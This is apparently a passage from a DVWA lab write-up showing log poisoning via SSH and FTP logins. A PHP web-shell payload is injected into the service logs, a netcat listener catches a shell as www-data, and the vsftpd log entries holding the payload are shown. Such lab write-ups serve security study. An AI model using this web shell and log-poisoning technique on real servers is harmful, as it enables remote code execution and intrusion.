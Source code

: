 ```

I do a poisoning connecting by ssh.

```
❯ ssh "<?php system(\$_GET['c']); ?>"@192.168.0.105
<?php system($_GET['c']); ?>@192.168.0.105's password:
Permission denied, please try again.
```

I accept a request and add my malicious command.

![burpshell_ssh](/assets/imgs/dvwa2/burpshell_ssh.png)

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.105] from (UNKNOWN) [192.168.0.105] 43162
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

------

### Log Poisoning ftp

We install the vsftpd service

We start the service.

```
> sudo service vsftpd start
```

We made a request to see if it is possible to view the service logs.

![ftplog](/assets/imgs/dvwa2/ftplog.png)

We inject php code when trying to authenticate to the machine by ftp.

```
❯ ftp 192.168.0.105
Connected to 192.168.0.105.
220 (vsFTPd 3.0.3)
Name (192.168.0.105:noroot): '<?php system($_GET['c']); ?>'
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp>
```

File: ```/Var/log/vsftpd.log```

```
❯ tail -f vsftpd.log
Fri Aug 20 01:55:53 2021 [pid 117912] CONNECT: Client "::ffff:192.168.0.105"
Fri Aug 20 01:56:04 2021 [pid 117911] ['<?php system($_GET['c']); ?>'] FAIL LOGIN: Client "::ffff:192.168.0.105"
```
We interpret a request and send a command to spawn a shell.

![ftpshell](/assets/imgs/dvwa2/ftpshell.png)

```